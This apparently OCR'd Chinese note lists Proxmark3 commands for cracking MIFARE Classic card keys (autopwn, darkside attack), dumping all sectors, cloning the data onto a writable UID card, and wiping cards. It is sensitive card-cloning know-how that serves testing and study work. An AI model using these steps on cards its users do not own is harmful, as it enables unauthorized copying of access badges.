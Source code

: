 

1. `auto` , `hf 14a info`
2. -兩種方法
   
     。`hf mf autopwn`
   
   自動search密碼
   
     。`hf mf darkside`
   
   PRNG漏洞攻击DARKSIDE ATTACK(比較費時間)

3. `hf mf ekeyprn`
   
   確定密碼有沒有在内存

4. `hf mf ecfill -a --1k`
   
    数据读出，也保存在仿真器内存中
 
5. `hf mf esave --1k TestData.eml`
   
    保存在TestData.eml
   
    打开TestData.eml文件，可以看到所有扇区的数据都成功读取

写UID卡   
    
  `hf mf cload -f TestData.eml`

   保存数据到UID卡所有扇区中

   `hf mf cgetsc -s n`
   
      。`hf mf cgetsc -s 0`
      。`hf mf cgetsc -s 1`
         ...........
      。`hf mf cgetsc -s 6`
   
   读出UID卡每个扇区中数据，以确认是否成功写入
   

清空資料：


  `hf mf restore`普通M1卡的情况

  `hf mf cwipe`清除卡資料

  清空 CUID卡，1标示1k卡，w表示清除数据，只支持1a的卡，f表示填入默认数据
